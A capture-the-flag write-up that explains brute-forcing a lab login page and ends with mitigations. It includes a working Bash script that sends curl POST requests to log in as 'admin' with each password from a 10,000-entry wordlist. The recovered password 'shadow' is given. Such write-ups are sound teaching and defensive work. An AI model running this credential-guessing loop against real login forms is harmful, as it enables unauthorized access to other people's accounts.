 # Password Cracking (Brute Force Attack)

## Description
This Flag involved performing a brute force attack on the login page to identify a valid username and password combination. By testing a list of common passwords, we were able to successfully gain access and retrieve the flag.

## Steps to Exploit
1. **Identify Target:**
   - The login page was identified as the target for the brute force attack.

2. **Use the Script:**
   - We used a Bash script to automate the process of testing a list of common passwords against the login form. The script iterated through the passwords and checked the response for the presence of the flag.

3. **Run the Script:**
   - The script was executed with a password list (`10k.txt`). During the process, the correct password "shadow" was identified.

4. **Gain Access:**
   - After identifying the correct password, "shadow," the login was successful, and the flag was obtained.


## Impact
The success of a brute force attack highlights several critical vulnerabilities:

- **Weak Password Policies:** If users or administrators use common or weak passwords, they become easy targets for brute force attacks. This can lead to unauthorized access to sensitive systems and data.
  
- **Account Compromise:** Once an attacker gains access through brute force, they can potentially escalate privileges, access sensitive information, or perform malicious activities within the system.

- **Automation Risks:** Automated scripts can quickly cycle through password lists, making brute force attacks more efficient and dangerous if proper protections are not in place.



## Mitigation
To prevent brute force attacks, consider implementing the following security measures:

- **Strong Password Policies:** Enforce strong password policies requiring a combination of uppercase letters, lowercase letters, numbers, and special characters.
  
- **Account Lockout Mechanisms:** Implement account lockout mechanisms that temporarily disable an account after a certain number of failed login attempts.
  
- **CAPTCHA:** Introduce CAPTCHA or other challenge-response tests to make automated brute force attacks more difficult.

- **Two-Factor Authentication (2FA):** Implement two-factor authentication to add an additional layer of security, requiring not just a password but also a second form of verification.

## Script Used
Below is the Bash script used to perform the brute force attack:

```bash
#!/bin/bash

passwords=$(<10k.txt)

# Split the passwords into an array
IFS=$'\n' read -d '' -r -a password_array <<< "$passwords"

counter=1

for i in "${password_array[@]}"; do
    response=$(curl -X POST "http://localhost/index.php?page=signin&username=admin&password=${i}&Login=Login#")
    echo "$response" | grep 'flag' && echo "Flag found on password ${counter}: ${i}" && break
    ((counter++))
done
```

   ```
   -d  '' means "don't stop until end of input" 
   -r  Won't treat \ as special character
   -a   "read into array"
   ```
How the Script Works:

Password List: The script reads a list of 10,000 common passwords from a file named 10k.txt.
Iteration: It then iterates through each password, using curl to submit the password to the login form.
Flag Detection: If the response contains the word "flag," the script outputs the correct password and stops.



IFS determines how Bash recognizes word boundaries while splitting a sequence of character strings.
ref: https://www.baeldung.com/linux/ifs-shell-variable
